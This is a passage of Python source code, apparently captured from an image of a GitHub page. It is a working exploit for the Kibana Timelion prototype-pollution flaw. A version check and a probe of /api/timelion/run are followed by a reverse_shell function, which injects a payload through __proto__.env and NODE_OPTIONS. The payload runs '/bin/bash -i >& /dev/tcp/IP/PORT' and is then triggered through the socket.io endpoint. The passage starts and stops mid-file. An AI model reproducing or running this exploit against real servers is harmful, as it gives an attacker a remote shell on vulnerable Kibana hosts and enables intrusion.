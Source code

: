 ```python
        return False

    if sc1 > cc or (StrictVersion("6.0.0") <= cc and sc2 > cc):
        return True
    return False


def verify(url):
    global version

    if not version or not version_compare(["5.6.15", "6.6.1"], version):
        return False
    headers = {
        'Content-Type': 'application/json;charset=utf-8',
        'Referer': url,
        'kbn-version': version,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    data = '{"sheet":[".es(*)"],"time":{"from":"now-1m","to":"now","mode":"quick","interval":"auto","timezone":"Asia/Shanghai"}}'
    url = "{}{}".format(url.rstrip("/"), "/api/timelion/run")
    r = requests.post(url, data=data, verify=False, headers=headers, timeout=20)
    if r.status_code == 200 and 'application/json' in r.headers.get('content-type', '') and '"seriesList"' in r.content:
        return True
    else:
        return False


def reverse_shell(target, ip, port):
    random_name = "".join(random.sample('qwertyuiopasdfghjkl', 8))
    headers = {
        'Content-Type': 'application/json;charset=utf-8',
        'kbn-version': version,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    data = r'''{"sheet":[".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"if [ ! -f /tmp/%s ];then touch /tmp/%s && /bin/bash -c \\'/bin/bash -i >& /dev/tcp/%s/%s 0>&1\\'; fi\");process.exit()//')\n.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],"time":{"from":"now-15m","to":"now","mode":"quick","interval":"10s","timezone":"Asia/Shanghai"}}''' % (random_name, random_name, ip, port)
    url = "{}{}".format(target, "/api/timelion/run")
    r1 = requests.post(url, data=data, verify=False, headers=headers, timeout=20)
    if r1.status_code == 200:
        trigger_url = "{}{}".format(target, "/socket.io/?EIO=3&transport=polling&t=MtjhZoM")
        new_headers = headers
        new_headers.update({'kbn-xsrf': 'professionally-crafted-string-of-text'})
        r2 = requests.get(trigger_url, verify=False, headers=new_headers, timeout=20)
        if r2.status_code == 200:
            time.sleep(5)
            return True
    return False


if __name__ == "__main__":
    start = time.time()

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest='url', default="http://127.0.0.1:5601", type=str, help='such as: http://127.0.0.1:5601')
```